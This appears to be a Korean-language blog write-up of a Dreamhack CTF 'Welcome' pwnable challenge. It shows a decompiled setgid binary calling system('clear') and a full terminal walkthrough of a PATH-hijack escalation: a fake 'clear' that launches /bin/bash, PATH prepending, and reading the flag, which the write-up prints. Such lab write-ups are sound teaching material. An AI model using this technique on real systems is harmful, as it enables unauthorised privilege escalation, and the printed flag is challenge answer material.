 ```yaml
---
title: "[Dreamhack CTF Season 2 #11] Welcome writeup"
date: 2023-01-29 21:56:00 +09:00
categories: [CTF, PWNABLE]
tags: [ctf]
---
```


chal 바이너리의 내용은 아래와 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __asm { endbr64 }
  sub_1080(1001LL, 1001LL, 1001LL);
  sub_1090("clear");
  sub_1070("Tada~!");
  return 0;
}
```

바이너리를 실행하면 clear를 실행하고 Tada~ 문자열을 출력한 뒤 종료한다. 이제 remote에 접속해보자

```plaintext
pwn@localhost:~$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
pwn@localhost:~$ ls -al
total 48
drwxr-x--- 1 pwn  pwn    4096 Dec  7 09:06 .
drwxr-xr-x 1 root root   4096 Dec  5 04:32 ..
-rw-r--r-- 1 pwn  pwn     220 Dec  5 04:32 .bash_logout
-rw-r--r-- 1 pwn  pwn    3771 Dec  5 04:32 .bashrc
drwx------ 2 pwn  pwn    4096 Dec  7 09:06 .cache
-rw-r--r-- 1 pwn  pwn     807 Dec  5 04:32 .profile
-rwxr-sr-x 1 root pwned 16048 Dec  5 04:32 chal
-rw-r-S--- 1 root pwned    69 Dec  5 04:32 flag
pwn@localhost:~$
```

flag에 read가 막혀있으나, `chal` 에 setuid가 걸려있다. 이를 통해 chal이 하는 행위를 조작해야 하는 것을 알 수 있다.

앞서 바이너리를 본대로 chal은 `system("clear")` 와 같이 실행하므로 bash의 환경변수($PATH)의 영향을 받는다.

그러므로 임의 경로에 bash를 실행해주는 명령을 clear라는 이름으로 저장하고, 해당 경로를 환경변수에 추가해주면 플래그를 읽을 수 있다.

```plaintext
pwn@localhost:~$ ./flag
-bash: ./flag: Permission denied
pwn@localhost:~$
```

```plaintext
pwn@localhost:~$ cd /tmp/
pwn@localhost:/tmp$ echo "/bin/bash" > clear
pwn@localhost:/tmp$ chmod 777 clear
pwn@localhost:/tmp$ cat clear
/bin/bash
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$ export PATH=/tmp:$PATH
pwn@localhost:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ cd ~
pwn@localhost:~$ ./chal
pwn@localhost:~$ id
uid=1000(pwn) gid=1001(pwned) groups=1001(pwned),1000(pwn)
pwn@localhost:~$ cat flag
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
pwn@localhost:~$
```